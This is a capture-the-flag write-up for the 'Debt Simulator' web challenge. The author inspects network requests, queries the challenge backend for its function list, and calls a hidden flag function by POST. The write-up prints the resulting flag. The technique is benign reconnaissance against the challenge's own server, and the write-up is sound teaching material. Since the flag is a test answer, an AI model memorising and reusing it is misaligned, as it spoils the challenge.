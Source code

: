 # Debt Simulator [web]

- Score: 100
- Solves: 579

## Solution

Accessing the web page, an error occurs:

```
GET https://debt-simulator.web.hsctf.com/static/js/2.f3855285.chunk.js net::ERR_CONTENT_LENGTH_MISMATCH 200 (OK)
```

This means that the header `Content-Length` is set to the wrong value. Anyway, I downloaded all the relevant files and launched a localhost server.

Web page:

![](game.png)

By watching the network, I found that every time I pressed the button, it sent a POST request to `https://debt-simulator-login-backend.web.hsctf.com/yolo_0000000000001`.

Then, I sent GET request:

```fish
$ http GET https://debt-simulator-login-backend.web.hsctf.com/yolo_0000000000001
HTTP/1.1 200 OK
Access-Control-Allow-Headers: Origin, X-Requested-With, Content-Type, Accept
Access-Control-Allow-Origin: *
Connection: keep-alive
Content-Length: 68
Content-Type: application/json; charset=utf-8
Date: Sat, 06 Jun 2020 16:10:11 GMT
ETag: W/"44-xQgGU8rIa6s/xdA6dJnU2Ix7pCg"
Server: nginx/1.14.2
X-Powered-By: Express

{
    "functions": [
        "getPay",
        "getCost",
        "getgetgetgetgetgetgetgetgetFlag"
    ]
}
```

And, I sent POST request:

```fish
$ http --form POST https://debt-simulator-login-backend.web.hsctf.com/yolo_0000000000001 function=getgetgetgetgetgetgetgetgetFlag
HTTP/1.1 200 OK
Access-Control-Allow-Headers: Origin, X-Requested-With, Content-Type, Accept
Access-Control-Allow-Origin: *
Connection: keep-alive
Content-Length: 61
Content-Type: application/json; charset=utf-8
Date: Sat, 06 Jun 2020 16:14:29 GMT
ETag: W/"3d-k6EklH+9W7N6OgPJcOFZK3d45qk"
Server: nginx/1.14.2
X-Powered-By: Express

{
    "response": "flag{y0u_f0uND_m3333333_123123123555554322221}"
}
```

## Flag

`flag{y0u_f0uND_m3333333_123123123555554322221}`

